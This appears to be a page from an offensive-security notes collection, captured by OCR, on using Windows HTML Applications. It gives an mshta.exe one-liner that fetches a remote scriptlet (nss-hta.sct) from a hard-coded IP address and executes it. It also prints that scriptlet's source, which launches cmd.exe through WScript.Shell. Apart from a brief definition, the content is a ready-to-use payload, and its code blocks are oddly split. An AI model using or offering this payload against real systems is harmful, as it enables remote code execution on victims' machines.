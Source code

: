 ## HTML Applications

An HTML Application is a Microsoft Windows program whose source code consists of HTML, Dynamic HTML, and one or more scripting languages supported by Internet Explorer, such as VBScript or JScript. The HTML is used to generate the user interface, and the scripting language is used for the program logic.

### payload

```cmd
cmd /c mshta.exe javascript:a=(GetObject("script:http://192.168.1.46/nss-hta.sct")).Exec();close();
```

* `nss-hta.sct`
  
  ```javascript
  <?XML version="1.0"?>
  <scriptlet>
  <registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>
  ```

<public>
    <method name="Exec"></method>
</public>

```xml
<script language="JScript">
<![CDATA[
    function Exec()    {
        var r = new ActiveXObject("WScript.Shell").Run("cmd.exe");
    }
]]>
</script>
```
